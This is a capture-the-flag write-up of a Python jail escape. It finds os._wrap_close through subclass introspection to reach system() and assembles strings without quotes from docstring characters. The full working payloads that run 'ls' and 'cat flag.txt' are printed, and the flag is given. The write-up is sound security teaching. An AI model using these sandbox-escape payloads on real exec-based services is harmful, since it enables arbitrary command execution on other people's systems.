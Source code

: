 # Build yourself in
## Description
The extraterrestrials have upgraded their authentication system and now only them are able to pass. Did you manage to learn their language well enough in order to bypass the the authorization check?

## Methodology
This is an `nc` challenge without a source code.

When we connect we have some sort of a "shell". We can try to input some special character like `$`.
```python
3.8.9 (default, Apr 15 2021, 05:07:04) 
[GCC 10.2.1 20201203]

[*] Only  are allowed!

>>> $
Traceback (most recent call last):
  File "/app/build_yourself_in.py", line 16, in <module>
    main()
  File "/app/build_yourself_in.py", line 13, in main
    exec(text, {'__builtins__': None, 'print':print})
  File "<string>", line 1
    $
    ^
SyntaxError: invalid syntax
```

The program crashed and we see we are inside and `exec()` function with `__builtins__` disabled which will complicate things. Because of this we cannot use any builtin python methods.

We can use python `introspection` to get all available classes from the interpreter.

```
>>> print(().__class__.__base__.__subclasses__())
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>,
[REDACTED]
```

We need a class that has a reference to `__import__` or has a reference to `system()` function so we can exec OS commands. Class `catch_warnings` has a reference to `__import__` but the this current interpreter doesn't have a reference to this class. There is another class `os._wrap_close`, which has a reference to `__globals__['system']` with which we can execute commands. We can find this class with this command (props to HackTricks).

```python
[ x.__init__.__globals__ for x in ().__class__.__base__.__subclasses__() if x.__name__ == '_wrap_close' ][0]['system']('ls')
```

With this piece of code we will loop the list of classes and find the class called `_wrap_close` and execute `ls`.

![denied](./denied.PNG)

We cannot use quotes. Luckily, I wrote a script that can generate string literals in python without using `'` or `"`. My [script](https://github.com/s-3ntinel/py-string-assembler) is here. We will use it to generate string literals for strings `_wrap_close`, `system` and `ls`. Be sure to use python3 with the script because the challenge uses python3 also.

```bash
$ python3 py-string-assembler.py -s "_wrap_close"
().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[99]+().__class__.__base__.__subclasses__()[0].__doc__[13]+().__class__.__base__.__subclasses__()[0].__doc__[16]+().__class__.__base__.__subclasses__()[0].__doc__[2]+().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[9]+().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[5]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[3]

$ python3 py-string-assembler.py -s "system"                                                                                              ().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[1]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[0]+().__class__.__base__.__subclasses__()[0].__doc__[3]+().__class__.__base__.__subclasses__()[0].__doc__[17]

$ python3 py-string-assembler.py -s "ls"
().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[23]
```

Substitute the output for the strings and we have a working payload.

## Exploit
Payload for `ls`.

```python
[ x.__init__.__globals__ for x in ().__class__.__base__.__subclasses__() if x.__name__ == ().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[99]+().__class__.__base__.__subclasses__()[0].__doc__[13]+().__class__.__base__.__subclasses__()[0].__doc__[16]+().__class__.__base__.__subclasses__()[0].__doc__[2]+().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[9]+().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[5]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[3] ][0][().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[1]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[0]+().__class__.__base__.__subclasses__()[0].__doc__[3]+().__class__.__base__.__subclasses__()[0].__doc__[17]](().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[23])
```

![ls](./ls.PNG)


Now just generate a string `cat flag.txt` from the script and substitute it in payload. Payload for `cat flag.txt`.

```python
[ x.__init__.__globals__ for x in ().__class__.__base__.__subclasses__() if x.__name__ == ().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[99]+().__class__.__base__.__subclasses__()[0].__doc__[13]+().__class__.__base__.__subclasses__()[0].__doc__[16]+().__class__.__base__.__subclasses__()[0].__doc__[2]+().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[9]+().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[5]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[3] ][0][().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[1]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[0]+().__class__.__base__.__subclasses__()[0].__doc__[3]+().__class__.__base__.__subclasses__()[0].__doc__[17]](().__class__.__base__.__subclasses__()[0].__doc__[9]+().__class__.__base__.__subclasses__()[0].__doc__[16]+().__class__.__base__.__subclasses__()[0].__doc__[0]+().__class__.__base__.__subclasses__()[0].__doc__[20]+().__class__.__base__.__subclasses__()[4].__doc__[103]+().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[16]+().__class__.__base__.__subclasses__()[4].__doc__[16]+().__class__.__base__.__subclasses__()[4].__doc__[127]+().__class__.__base__.__subclasses__()[0].__doc__[0]+().__class__.__base__.__subclasses__()[4].__doc__[5]+().__class__.__base__.__subclasses__()[0].__doc__[0])
```

![cat](./cat.PNG)

## Flag
**CHTB{n0_j4il_c4n_h4ndl3_m3!}**